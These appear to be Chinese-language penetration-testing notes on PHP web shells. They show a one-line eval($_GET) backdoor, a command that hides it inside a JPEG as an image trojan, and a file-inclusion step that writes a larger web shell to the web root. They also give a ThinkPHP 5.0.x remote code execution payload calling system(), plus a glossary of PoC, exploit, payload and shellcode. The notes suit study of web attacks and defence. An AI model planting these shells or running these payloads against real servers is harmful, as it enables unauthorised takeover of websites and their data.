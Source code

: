 > 相关站点参考：
>
> <https://null-byte.wonderhowto.com/how-to/top-80-websites-available-tor-network-0186117/>









### 相关工具制作以及利用

#### 图片木马&一句木马

参考：<https://www.guhei.net/post/jb2536>

PHP 环境：

```shell
# cat test.php
<?php
eval($_GET["shell"]);
?>
## 访问打印phpinfo
http://IP/test.php?shell=phpinfo();
其中shell可以是任意字符串，用于传入php语句
http://IP/test.php?shell=echo(__DIR__);
输出当前脚本所在的目录
## 原理： ##
php 中的 eval 函数将接收一个字符串参数，并将这个字符串作为命令语句执行，上面的是 get 请求，post 请求也大同小异。
```

一句话图片木马制作

1）windows cpoy 功能

```shell
copy 1.jpg/b + test.php/a 2.jpg
用16进制软件打开2.jpg可以看到里面的test.php代码
```



图片木马利用：

前提：需要有文件包含漏洞，可以是 php 代码漏洞，也可以是 nginx/php-fpm 漏洞/配置文件漏洞。即本地文件包含漏洞及解析漏洞。





## 渗透中 PoC、Exp、Payload 与 Shellcode 的区别

PoC，全称“Proof of Concept”，中文“概念验证”，常指一段漏洞证明的代码。

Exp，全称“Exploit”，中文“利用”，指利用系统漏洞进行攻击的动作。

Payload，中文“有效载荷”，指成功 exploit 之后，真正在目标系统执行的代码或指令。

Shellcode，简单翻译“shell 代码”，是 Payload 的一种，由于其建立正向/反向 shell 而得名。

通俗理解：

想象自己是一个特工，你的目标是监控一个重要的人，有一天你怀疑目标家里的窗子可能没有关，于是你上前推了推，结果推开了，这是一个 PoC，于是你回去了，开始准备第二天的渗透计划，第二天你通过同样的漏洞渗透进了它家，仔细查看了所有的重要文件，离开时还安装了一个隐蔽的窃听器，这一天你所做的就是一个 Exp，你在他家所做的就是不同的 Payload，就把窃听器当作 Shellcode 吧







## 入侵实例1

参考：<https://zhuanlan.zhihu.com/p/59071838>

1）找后台



2）识别CMS

挖掘漏洞：

​	黑盒审计

​	白盒审计

发现：ThinkPHP Fastadmin

3）ThinkPHP版本漏洞

查看版本：

```shell
# find ./thinkphp -name "*.php" |xargs grep -i version
./base.php:define('THINK_VERSION', '5.0.22');
```

在thinkphp5.0.x版本中，文件/thinkphp/library/think/Request.php包含了处理请求的Request类，在Method方法中，表单伪装变量对该方法的变量进行覆盖，可以实现对该类的所有函数进行调用。

在Request类中，我们看一下__construct析构方法。如果该类属性不存在，就会调用默认配置文件中的default_filter的值。如果该类属性存在，就会对$option数组进行遍历，将该类属性赋值为$option数组中键对应的值

因此，我们可以构造一个Payload：s=ipconfig&_mehthod=__construct$method=&filter[]=system







### PHP代码的三种写法

```shell
1. <? phpinfo(); ?>
2. <?php phpinfo(); ?>
3. <script language="php"> phpinfo(); </script>
```





### 文件包含getshell

上传图片格式大马：

```shell
<?php$test='大马代码';//访问这个文件大马的代码将被写入网站的根目录2.php下 （路径phpinfo得到）file_put_contents("/home/www/webdata/epage/2.php", $test);
```

include文件包含：

`<script language="php">include '../ezfiles/2/1002/img/92/123.jpg';//上传的图片地址</script>`
